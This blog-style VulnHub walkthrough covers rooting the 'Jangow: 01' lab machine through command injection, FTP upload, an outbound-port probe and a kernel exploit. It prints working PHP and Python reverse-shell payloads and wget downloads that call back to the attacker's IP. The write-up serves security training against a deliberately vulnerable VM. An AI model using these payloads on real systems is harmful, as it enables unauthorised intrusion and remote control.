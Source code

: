 ```yaml
---
title: name
date: 2025-04-22 14:00:00 +0200
categories: VulnHub
tags: [Kernel-exploits, privilege-escalation, rooted-command-injection, jangow01]
toc: true
comments: true
image: ./assets/img/attachments/jangow.png
imageNameKey: jangow
---
```

Yo! Back again with another VulnHub walkthrough — this time we’re diving into _Jangow: 01_. Let’s get rootin’! 💥
This is my second writeup 2/1000
## Recon

![w](/assets/img/attachments/jangow-1.png)

First step was making sure that the machine is reachable, lets START.
Now, As always we'll run an Nmap scan on all ports to see which services are exposed — this will help us decide where to dig deeper.

`sudo masscan -p1-65535 192.168.56.118`

![w](/assets/img/attachments/jangow-2.png)

Then we will use nmap to do full scan on those two open ports

`nmap 192.168.56.118 -Pn -sV -sC -p80,21`
![w](/assets/img/attachments/jangow-3.png)
![w](/assets/img/attachments/jangow-4.png)
![w](/assets/img/attachments/jangow-5.png)

This how the website looked like, after taking a deep look on the functionality of this website and when i clicked on buscar i found this 
## Exploiting vulnerability

![w](/assets/img/attachments/jangow-6.png)
![w](/assets/img/attachments/jangow-7.png)

Command Injection!

![w](/assets/img/attachments/jangow-8.png)

After some investigation and enumeration, I discovered a file that initially appeared to contain the user's password. However, it didn’t work for login, so I assumed it might just be the user flag instead.
I then attempted to gain a reverse shell by setting up a listener on my machine, but none of the payloads I tried were successful. 
So, I decided to go back to discover more files on the machine. I ran web content discovery from the beginning using

`ffuf -u http://192.168.56.118/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2
`
![w](/assets/img/attachments/jangow-9.png)

I couldn't access the content of the file directly, but since there is a command injection vulnerability, I plan to open the file from there.
Got nothing from the browser (I think the file is being rendered)

![w](/assets/img/attachments/jangow-10.png)
![w](/assets/img/attachments/jangow-11.png)

But curl got it, now i will try to gain access with password using ftp (the second open port)
## Initial Access

![w](/assets/img/attachments/jangow-12.png)
I tried both usernames and i logged in with jangow01 !
Since I have access to FTP, I will try to get a shell to proceed to the next step. To do this, I attempted to see if I can upload files to the directory I'm currently in.

![w](/assets/img/attachments/jangow-13.png)

I couldn't, so i thought of changing the directory I'm currently in to /home/jangow01

![w](/assets/img/attachments/jangow-14.png)

And it was uploaded successfully!

```php
<?php
$sock=fsockopen("192.168.246.128",4444);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
I tried to upload this shell and trigger it buy running curl command

`curl "http://192.168.56.118/site/busque.php?buscar=php+/home/jangow01/shell.php"`

But it didn't work, I did troubleshooting for the file i uploaded before
![w](/assets/img/attachments/jangow-15.png)

And couldn't view its content

![w](/assets/img/attachments/jangow-16.png)

Maybe that’s why PHP couldn’t open the file. To solve this, I granted it execute permission.

`chmod 755 /home/jangow01/shell.php`

![w](/assets/img/attachments/jangow-17.png)

Even though, I didn't got the shell, I tried several methods but couldn't get it. 
I tested if i opened http server on my machine would the target machine send any requests to me

`http://192.168.56.118/site/busque.php?buscar=wget+http:/192.168.246.128:8000/hello.txt`

I didn't receive any connection, so I believe there's a firewall blocking outgoing connections — which is likely why I wasn't able to get a reverse shell. Now, I need to identify which ports are not blocked. I used the following script to test that:
```python
# listener.py

import socket

import threading

  

ports = [21, 22, 23, 25, 53, 80, 110, 139, 143, 161, 443, 587, 993, 995, 3306, 3389]

  

def handle_conn(port):

    sock = socket.socket()

    sock.bind(("0.0.0.0", port))

    sock.listen(1)

    print(f"[+] Listening on port {port}")

    conn, addr = sock.accept()

    print(f"[!] Connection received on port {port} from {addr}")

    conn.close()

    sock.close()

  

for port in ports:

    threading.Thread(target=handle_conn, args=(port,), daemon=True).start()

  

input("Press Enter to exit...\n")
```

The script uses threading to start listeners on the most commonly guessed outbound ports. On the vulnerable parameter, we initiate these connections using `telnet` with the following payload:

`http://192.168.56.118/site/busque.php?buscar=echo%20%27QUIT%27%20|%20for%20i%20in%20$(seq%201%201024);%20do%20echo%20%22Porta%20$i%20==%3E%22;%20timeout%20--signal=9%202%20telnet%20192.168.56.1%20$i;echo%20%22Port%20$i%20%3C==%22;%20done;`

decoded:
`http://192.168.56.118/site/busque.php?buscar=echo 'QUIT' | for i in $(seq 1 1024); do echo "Porta $i ==>"; timeout --signal=9 2 telnet 192.168.56.1 $i; echo "Port $i <=="; done;`

and then we got this!

![w](/assets/img/attachments/jangow-18.png)

Which tell us that port 443 isn't blocked for outgoing traffic by the firewall, by running 
`which python3`
![w](/assets/img/attachments/jangow-19.png)

I confirmed python3 is installed, next i used this reverse shell command

`http://192.168.56.118/site/busque.php?buscar=/usr/bin/python3%20-c%20%27import%20socket;%20import%20subprocess;%20import%20os;%20s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);%20s.connect((%22192.168.56.1%22,443));%20os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);%20subprocess.call([%22/bin/bash%22,%20%22-i%22])%27`

![w](/assets/img/attachments/jangow-20.png)

And voilà! We got a connection. 🎉
## Privilege Escalation
we’ll start gathering information about the system itself, beginning with displaying detailed system information. But while doing this manually i will run linpeas at the background

`uname -a `

![w](/assets/img/attachments/jangow-21.png)

![w](/assets/img/attachments/jangow-22.png)

Upon researching the version, a known vulnerability was identified that could potentially be exploited.

![w](/assets/img/attachments/jangow-23.png)

linpeas output too

![w](/assets/img/attachments/jangow-24.png)

Now i will upload the exploit to the machine using the same python server.

`http://192.168.56.118/site/busque.php?buscar=wget+http://ip:443/47170.c`

![w](/assets/img/attachments/jangow-25.png)

After making sure that gcc is installed, will compile the exploit

`gcc 47170.c -o exploit`

![w](/assets/img/attachments/jangow-26.png)

I moved to /tmp since i didn't have the write permission on /site directory

![w](/assets/img/attachments/jangow-27.png)

It's Ok 😢, we will try another exploit

![w](/assets/img/attachments/jangow-28.png)

Will go with this one, 

![w](/assets/img/attachments/jangow-29.png)

![w](/assets/img/attachments/jangow-30.png)

And Finallyyy!! rooted!

![w](/assets/img/attachments/jangow-31.png)

Rooted it. Another one bites the dust. 🏴‍☠️ see u soon!
